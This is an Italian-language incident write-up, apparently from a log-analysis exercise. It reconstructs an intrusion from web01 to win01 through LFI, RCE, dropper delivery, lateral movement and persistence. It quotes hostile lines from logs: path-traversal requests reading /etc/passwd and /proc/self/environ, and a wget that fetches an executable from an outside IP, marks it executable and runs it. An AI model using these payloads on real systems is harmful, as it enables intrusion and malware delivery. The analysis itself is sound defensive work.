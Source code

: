 



# logs 
Web server logs
![Web server logs](../image/2a.png)

Application / Service logs
![ Application / Service logs](../image/2b.png)

Security logs
![ Security logs](../image/2c.png)



# Accesso Iniziale: Da LFI a RCE su web01
```
Recon / Exploitation (web01)
 └── 09:12:14 web01 nginx --> LFI: /reports/view.php?doc=../../../../../../etc/passwd (trace_id=tr-A)
     └── php-fpm → accessed /etc/passwd
 └── 09:12:16 web01 nginx -> LFI: /download.php?file=../../../var/log/auth.log (trace_id=tr-B)
     └── php-fpm → accessed /var/log/auth.log
 └── 09:12:18 web01 nginx -> LFI: /app/help.php?topic=../../../../proc/self/environ (trace_id=tr-A)
     └── auditd → SYSCALL: php-fpm spawns /usr/bin/bash -c "id; uname -a" → RCE confirmed
 └── 09:15:27 web01 nginx --> Attempted LFI on config.php (trace_id=tr-A) → PHP error / php-fpm crash & restart
```


Alle 09:12:14, ho notato una richiesta GET sospetta alla pagina view.php con un parametro doc che cercava di accedere a:

`../../../../../../etc/passwd`

All’inizio può sembrare solo un test, ma dal log di php-fpm ho visto che il file /etc/passwd è stato effettivamente letto. A quel punto ho capito che il server era vulnerabile a LFI (Local File Inclusion).
Pochi secondi dopo, alle 09:12:16, un’altra richiesta simile ha colpito download.php, cercando di leggere` ../../../var/log/auth.log`. Anche questa volta, il file è stato servito con successo. Questo mi ha fatto pensare che l’attaccante stesse mappando i file interni del sistema.
Il passaggio più critico è avvenuto alle 09:12:18, con una richiesta a:
`help.php?topic=../../../../proc/self/environ`
Questa tecnica è spesso usata per ottenere variabili d'ambiente e avviare codice malevolo. Infatti, il log di auditd conferma che php-fpm ha eseguito `/usr/bin/bash -c "id; uname -a"` 
 Qui ho avuto la conferma... l’attaccante ha ottenuto esecuzione di comandi sul server , quindi siamo passati da LFI a RCE (Remote Code Execution).
Infine, alle 09:15:27, è stato fatto un tentativo su export.php per leggere il file config.php. Ma qualcosa è andato storto.. il php-fpm ha generato un errore e si è bloccato, come confermato dai log di sistema. Il servizio si è poi riavviato automaticamente.
In breve, l’attaccante è partito leggendo file di sistema, ma è riuscito ad arrivare all’esecuzione remota di comandi. Un’escalation chiara e pericolosa.


# Fase di Attacco: Consegna del Payload su web01
```
 Consegna del Payload su web01
 └── 09:18:41 web01 nginx -> LFI: /download.php?file=../../../../etc/hosts (trace_id=tr-B)
     └── 09:18:42 auditd -> wget http://198.51.100.91/.s → saved as /tmp/.svc
     └── 09:19:03 auditd -> chmod +x /tmp/.svc
     └── 09:19:07 auditd  --> /tmp/.svc --ping (dropper executed)
```
Alle 09:18:41, ho visto un’altra richiesta LFI, questa volta rivolta a download.php con il parametro `file=../../../../etc/hosts` . A prima vista sembrava simile alle precedenti, ma subito dopo ho notato qualcosa di diverso.
Solo un secondo dopo, alle 09:18:42, auditd registra un comando wget che scarica un file da un server esterno (IP: 198.51.100.91) e lo salva come /tmp/.svc. Questo file mi ha subito fatto pensare a un dropper, cioè un piccolo programma usato per caricare malware.
Poco dopo, alle 09:19:03, il file viene reso eseguibile con `chmod +x /tmp/.svc` , e finalmente, alle 09:19:07, viene eseguito con il comando:
`/tmp/.svc –ping`
Questo mi conferma che il payload è stato non solo consegnato, ma anche attivato. A quel punto, l’attaccante aveva un suo file eseguibile in funzione sul server ...segno chiaro che l'infezione era in corso.

# Movimento Laterale: Tentativo da web01 verso win01

```
Movimento Laterale-- Tentativo web01 -> win01
 └── 09:21:05 web01 auditd -> python3 one-liner to ssh admin@win01 (trace_id=tr-A)
     └── 09:24:11 win01 Security -> Logon failure admin from 10.10.5.21
     └── 09:24:59 win01 Security -> Successful logon svc_webapp from 10.10.5.21

```
Alle 09:21:05, ho notato un comando eseguito tramite python3 da web01 che cercava di avviare una sessione SSH con l’utente admin@win01. Era una one-liner classica, del tipo usato per tentare un accesso veloce e silenzioso.
Il tentativo però fallisce, come indicato nel log di sicurezza di win01 alle 09:24:11, che riporta un errore di accesso per l’utente admin proveniente dall’indirizzo IP 10.10.5.21 (cioè il server web01). Fin qui, sembrava solo un test o un primo tentativo manuale.
Ma alle 09:24:59, la situazione cambia: c’è un accesso riuscito, stavolta con l’utente svc_webapp, dallo stesso IP. Questo suggerisce che l’attaccante aveva già credenziali valide per questo account o che le aveva ottenute poco prima. A quel punto, era riuscito a spostarsi dal server Linux (web01) al sistema Windows (win01) ...movimento laterale completato.

# Persistenza: Installazione di Meccanismi su win01

```
Persistenza su win01
 └── 09:25:07 TaskScheduler EventID=106 -> Task registered "\System\UpdaterCache"
     Action = powershell.exe -File C:\ProgramData\upc.ps1 (trace_id=tr-B)
 └── 09:25:11 Sysmon 11 -> FileCreate C:\ProgramData\upc.ps1 (by powershell.exe)
 └── 09:25:42 SCM EventID=7045 --> Service installed "WinCacheSvc" → wincache.exe auto start
 └── 09:26:03 TaskScheduler EventID=201 --> Task "\System\UpdaterCache" started
```
Subito dopo l’accesso riuscito, l’attaccante inizia a stabilire persistenza sul sistema win01. 
09:25:07, ho visto che viene registrato un nuovo task pianificato chiamato \System\UpdaterCache. L’azione associata al task esegue powershell.exe con uno script:
`C:\ProgramData\upc.ps1`
Quattro minuti dopo, alle 09:25:11, Sysmon conferma la creazione del file upc.ps1, eseguito tramite PowerShell. Questo mi fa pensare che il file sia stato generato dinamicamente proprio in quel momento, probabilmente da un comando remoto.
Poi, alle 09:25:42, un nuovo servizio di sistema viene installato: WinCacheSvc, con wincache.exe impostato per l’avvio automatico. Questo è un classico esempio di persistenza tramite servizio Windows .... una tecnica usata per sopravvivere ai riavvii del sistema.
Infine, alle 09:26:03, il task pianificato UpdaterCache viene effettivamente avviato. A questo punto è chiaro: l’attaccante non solo ha avuto accesso al sistema, ma ha anche piazzato meccanismi per restare attivo nel tempo.

